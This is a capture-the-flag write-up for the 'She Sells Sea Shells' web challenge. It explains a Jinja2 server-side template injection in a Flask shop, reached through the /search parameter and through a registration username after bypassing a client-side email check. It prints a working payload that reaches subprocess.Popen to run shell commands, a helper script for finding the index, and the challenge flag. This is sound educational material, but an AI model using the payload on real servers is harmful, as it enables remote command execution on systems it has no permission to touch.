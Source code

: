 # Web: She Sells Sea Shells
Author: [redtrib3](https://github.com/redtrib3)

<br>
**Points**: 600
**Hint:** `{{ 7*7 }}`

**Challenge description:**
```
I just bought a flask at discount from this e-commerce website, check it out. 

http://glitchctf.games:64300/

```

**Vulnerability**: Server side Template Injection (Jinja)

**Vulnerable endpoints:** 
	-> `/search?q={{payload}}`	
	-> `/register (username input is vulnerable)`

## Exploitation:

### <u>Method 1  (Easy/Medium)</u>:

GET parameter 'q' in endpoint `/search` is vulnerable to Jinja2 SSTI. 
No blacklist/filter is added, so any SSTI payload works!

#### RCE payload: 
```
{{''.__class__.__base__.__subclasses__()[<index>]('cat flag', shell=True, stdout=-1).communicate()}} 
```

How to find the index:
     
```
//step1: dumps all subclasses 
{{''.__class__.__base__.__subclasses__()}}

 output: 
 
 No results for '[<class 'type'>, <class 'async_generator'>, <class 'bytearray_iterator'>
 ...[SNIP]....
 <class 'sqlite3.Row'>, <class 'sqlite3.Cursor'>, <class 'sqlite3.Connection'>, <class 'sqlite3.Statement'>, <class 'sqlite3.PrepareProtocol'>, <class 'sqlite3.Blob'>]
```
```python
//using a python program to find the index of subprocess.Popen:

cls = '''paste the above result as a string'''
# prints the index for subprocess.Popen
print([i for i,j in enumerate(cls.split(",")) if "subprocess.Popen" in j]) 

```

### <u>Method 2 (Medium/Hard) :</u>

* Register as {{7*7}}, Client side prevents submission of usernames that is not an email. 

```html
<input type="email" class="form-control" id="email" name="username" required="">
```  
Bypass this by Removing Type attribute or change it to "text".

* After registering and login, visit `/profile`, The reflected username shows executed code (49). Use the sink to exploit like method 1.

#### flag:
```plaintext
GLITCH{dund3r_b1und3r_5cd1e}
```
